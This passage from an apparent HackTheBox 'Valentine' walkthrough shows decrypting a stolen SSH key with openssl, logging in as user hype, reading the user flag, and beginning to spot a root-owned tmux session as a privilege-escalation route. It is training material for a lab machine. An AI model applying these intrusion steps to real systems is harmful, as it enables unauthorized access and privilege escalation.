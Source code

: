     root@kali:~/hackthebox/valentine-10.10.10.79# openssl rsa -in hype_key_encrypted -out hype_key_decrypted
    Enter pass phrase for hype_key_encrypted:
    writing RSA key
    

## SSH Access

With the decrypted key, ssh in as , given the file name:`hype`

    root@kali:~/hackthebox/valentine-10.10.10.79# ssh -i ~/hype_key_decrypted hype@10.10.10.79
    Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com/
    
    New release '14.04.5 LTS' available.
    Run 'do-release-upgrade' to upgrade to it.
    
    Last login: Fri Feb 16 14:16:34 2018 from 10.10.14.3
    hype@Valentine:~$ pwd
    /home/hype
    

This banner confirms the OS identification from nmap as Ubuntu 12.04.

Now we can grab user.txt:

    hype@Valentine:~$ find . -name user.txt -exec wc -c {} \; -exec cat {} \;
    33 ./Desktop/user.txt
    e6710a54...
    

## Privesc

There’s two clear paths to root here. Despite the fact that it’s been quite obvious that this is an older kernel, we’ll start with the more elegant one, since kernel exploits should be a last resort.

### Privesc 1: tmux Running as root

We see signed of tmux in a few places.

Process list, running as root:

    hype@Valentine:~$ ps -ef | grep tmux
    root       1022      1  0 Jul25 ?        00:00:54 /usr/bin/tmux -S /.devs/dev_sess
    

bash history:

    hype@Valentine:~$ history
        1  exit
        2  exot
        3  exit
        4  ls -la
        5  cd /
        6  ls -la
        7  cd .devs
        8  ls -la
        9  tmux -L dev_sess
       10  tmux a -t dev_sess
       11  tmux --help
       12  tmux -S /.devs/dev_sess
       13  exit
       14  tmux ls
       15  ps -ef
       16  ps -ef |grep tmux
       17  uname -a
       18  tmus
       19  tmux
       20  tmux ls